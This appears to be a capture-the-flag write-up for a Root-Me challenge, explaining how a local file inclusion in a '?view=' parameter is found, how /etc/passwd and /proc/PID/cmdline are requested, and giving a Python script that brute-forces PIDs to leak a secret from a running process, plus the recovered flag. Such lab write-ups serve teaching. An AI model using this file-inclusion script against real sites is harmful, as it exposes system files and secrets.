





# Echo's Secure Flag Checker



## Vulnerablity searching

First, let's look at the website.



It appears that the website was created to publish a script that checks the robustness of a flag. When we click on the link "here", we can see 2 interesting things.

- The page inform us that we can download the script at `http://ctf10k.root-me.org:6002/flagChecker.py` and if we remember correctly what says the description of the challenge, we can see that `The admin is currently running the FlagChecker on his server.`

- The url that we were redirected to is `http://ctf10k.root-me.org:6002/?view=app.html` which could be a local/remote file inclusion. This vulnerablity appears when websites open the content of files that are given in parameters, if there is no filter in the path of the file given, an attacker can read the content of any file, if he knows his path.

Let's first check the script, it could maybe be vulnerable.

```python
#!/bin/python3

"""
FlagChecker V0.1
Todo :  Improve testFlag method with regular expressions
	Implement try/catch to handle bad args
"""

#libs
from sys import argv
from os import getpid,system

#flag
flag = argv[2]
print("[~] Your flag is:",flag)
print("[~] PID is:",getpid())

def testFlag(passw):
	special_characters = "\"'!@~éè#$%^&*()-+?_=,<>/"
	isStrong = True
	reason = "[!] flag doesn't match these critera : \n"
	upperChars = 0
	lowerChars = 0
	numChars = 0
	if(len(passw)<=12):
		isStrong = False
		reason+="\t-Not long enough (<12 characters)\n"
	for char in passw:
		if char.isupper():
			upperChars+=1
	if(upperChars==0):
		isStrong= False
		reason+="\t-There are no uppercase characters in your flag\n"
	for char in passw:
		if char.islower():
			lowerChars+=1
	if(lowerChars==0):
		isStrong = False
		reason+="\t-There are no lowercase characters in your flag\n"
	for char in passw:
		if char.isnumeric():
			numChars+=1
	if(numChars==0):
		isStrong = False
		reason+="\t-There are no numbers in your flag\n"
	if(char in special_characters for char in passw):
		a=""
	else:
		reason+="\t-There are no special chars in your flag\n"
		isStrong=False
	if(isStrong):
		print("[!] Your flag is strong enough !")
	else:
		print(reason)
	input("Press <ENTER> to quit program...")
#test flag
testFlag(flag)
```

Ok, by reading the script, we can assume that the administrator of the website ran the program but forgot to close it by typing \<ENTER\>. We can assume that he ran something like

```bash
./flagChecker -f flag
```

So, what we could exploit is the fact that the script is currently running. To do that, let's look into the local/remote file inclusion that we found earlier.

To be more precise, let's firstly try if there really is a local file inclusion. To check that, the most efficient way is to test it on a file that exists in the directory for sure and we got one. Infact, `flagChecker.py`is in this directory.


By requesting `http://ctf10k.root-me.org:6002/?view=flagChecker.py` we got this reponse



The LFI(Local File Inclusion) worked !

Now let's see if there is a restriction on the file that we can open. For example, let's try `/etc/passwd` .




Unfortunately, there is one. :cry:

If we think a little, what we need to find is the command that was executed. To do that, we have 2 ways, or a log file, or a file that contains informations about the programs currently running.

Logs are out of reach, cause most of them need root permissions to be opened, so it only remains the second possibilty.

If we look further in the way of working of linux type systems, there is a directory created for each currently running program in `/proc` which is named with the PID of the process. Inside, there is a file called `cmdline`, where we can find the command line used to launch the process.

So, to sum up, we're gonna try to open the file `/proc/PID/cmdline` to see how the process with the pid PID was launched.

Let's try to do it for the pid 1, to see if we can access that file, which gives the url `http://ctf10k.root-me.org:6002/?view=/proc/1/cmdline`.




And we got it, time to create a script to brute-force all the pids possible, to find which ones exists and wich ones does not.


## exploitation of the vulnerability


```python
import requests
import time
from bs4 import BeautifulSoup

s = requests.Session()
url = "http://ctf10k.root-me.org:6002/?view=/proc/"
not_found_length = 1366 # lenght of the responses with 404 not found

for i in range(1, 9999):
    print("Getting : " + str(i))
    req = s.get(url+str(i)+"/cmdline").content
    if len(req) != not_found_length:
        print("[+] Found for "+str(i))
        cmd = BeautifulSoup(req).find("main")
        print(cmd)
    time.sleep(0.1) # if there is a request/s limit
```

It only remains to execute the script.

```html
Getting : 1
[+] Found for 1
<main class="text-light">/bin/bash /entrypoint.sh </main>
Getting : 2
Getting : 3
Getting : 4
Getting : 5
Getting : 6
Getting : 7
[+] Found for 7
<main class="text-light">apache2 -DFOREGROUND </main>
Getting : 8
[+] Found for 8
<main class="text-light">python3 /var/www/html/flagChecker.py --flag RM{Thx2Anth0&amp;M1k4Y0uFl4gg3d0bfu6} </main>
Getting : 9
Getting : 10
Getting : 11
Getting : 12
Getting : 13
Getting : 14
Getting : 15
```

We just need to wait 5 seconds and here we got the flag in the output, no need to test more pids.

We just need to remove the html encoding (`&amp;` -> `&`), which gives the flag `RM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}`.

[Here](./brute_force_flagChecker.py) is the source code of the brute force script and [here](./flagChecker.py) is the file flagChecker(that was downloaded on the website).

Thanks Mika and Antho for the challenge and thank you for reading.